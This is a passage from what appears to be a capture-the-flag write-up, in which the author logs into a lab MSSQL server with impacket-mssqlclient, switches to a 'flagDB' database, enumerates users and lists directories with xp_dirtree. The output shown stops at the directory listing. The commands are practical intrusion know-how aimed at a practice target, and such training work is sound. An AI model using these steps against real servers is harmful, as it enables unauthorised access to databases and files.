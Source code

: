 
Now we need to attempt to log into a Microsoft SQL Server running on the IP address `10.129.26.147` over port `1433` using the `mssqlsvc` account in the `WIN-02` domain via Windows authentication:
```c
impacket-mssqlclient -port 1433 -target-ip 10.129.26.147 WIN-02/mssqlsvc@10.129.26.147 -windows-auth

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(WIN-02\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(WIN-02\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (WIN-02\mssqlsvc  guest@master)> 
```

Next I decided to change to flagDB database:
```c
SQL (WIN-02\mssqlsvc  guest@master)> use flagDB
ENVCHANGE(DATABASE): Old Value: master, New Value: flagDB
INFO(WIN-02\SQLEXPRESS): Line 1: Changed database context to 'flagDB'.
SQL (WIN-02\mssqlsvc  WINSRV02\mssqlsvc@flagDB)> enum_users
UserName             RoleName        LoginName           DefDBName   DefSchemaName       UserID                                                           SID   
------------------   -------------   -----------------   ---------   -------------   ----------   -----------------------------------------------------------   
dbo                  db_owner        NULL                NULL        dbo             b'1         '   b'010500000000000515000000970c23f7a4be5d373abe7dbaf4010000'   

guest                public          NULL                NULL        guest           b'2         '                                                         b'00'   

INFORMATION_SCHEMA   public          NULL                NULL        NULL            b'3         '                                                          NULL   

sys                  public          NULL                NULL        NULL            b'4         '                                                          NULL   

WINSRV02\mssqlsvc    db_datareader   WINSRV02\mssqlsvc   master      dbo             b'5         '   b'010500000000000515000000970c23f7a4be5d373abe7dbaed030000' 
```

Later on I used xp_dirtree to list the directories available on the SQL Server's file system and used`select table_name from information_schema.tables`  to list all the tables in the `flagDB` and finally fetched the content of the flag:
```c
SQL (WIN-02\mssqlsvc  WINSRV02\mssqlsvc@flagDB)> xp_dirtree
subdirectory                depth   file   
-------------------------   -----   ----   
$Recycle.Bin                    1      0   

Config.Msi                      1      0   

Documents and Settings          1      0   

PerfLogs                        1      0   

Program Files                   1      0   

Program Files (x86)             1      0   

```